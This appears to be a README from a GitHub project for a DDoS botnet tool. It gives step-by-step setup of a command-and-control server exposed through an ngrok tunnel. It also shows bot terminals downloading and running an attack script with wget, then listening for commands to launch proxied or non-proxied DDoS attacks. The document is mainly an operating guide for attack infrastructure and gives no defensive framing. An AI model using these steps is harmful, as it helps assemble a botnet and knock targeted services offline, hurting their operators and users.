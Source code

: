 # How to use

---
## Setup botnet remote (Main terminal)
``` bash
curl -sSL https://ngrok-agent.s3.amazonaws.com/ngrok.asc | sudo tee /etc/apt/trusted.gpg.d/ngrok.asc >/dev/null && echo "deb https://ngrok-agent.s3.amazonaws.com buster main" | sudo tee /etc/apt/sources.list.d/ngrok.list && sudo apt update && sudo apt install ngrok
ngrok ngrok config add-authtoken <token>
php -S 127.0.0.1:8080 | ngrok http 8080 # In DDoS-Humilfy directory
```
---
---
```bash
# On another session in main terminal
python3 remote.py
```
- Now, once you successfully run the remote program type this:
```bash
set-kkey
```
- And for the input:
``` python
KKey-cjs: https://<ngrok link>/command.json
KKey-cph: https://<ngrok link>/command.php
KKey-aph: https://<ngrok link>/accepted.php
```
---


---
## Setup botnet receiver (In another terminal/Botnet)
- You need another terminal for your botnet.
``` bash
wget https://<ngrok link>/ddos.py
python3 ddos.py --listener # Use --no-proxy if you want to launch non-proxied DDoS attack
```
---
---
## Input
``` python
[~] Command host: https://<ngrok link>/command.json
[~] Accept host: https://<ngrok link>/accepted.php
[+] Waiting for commands..
```
---
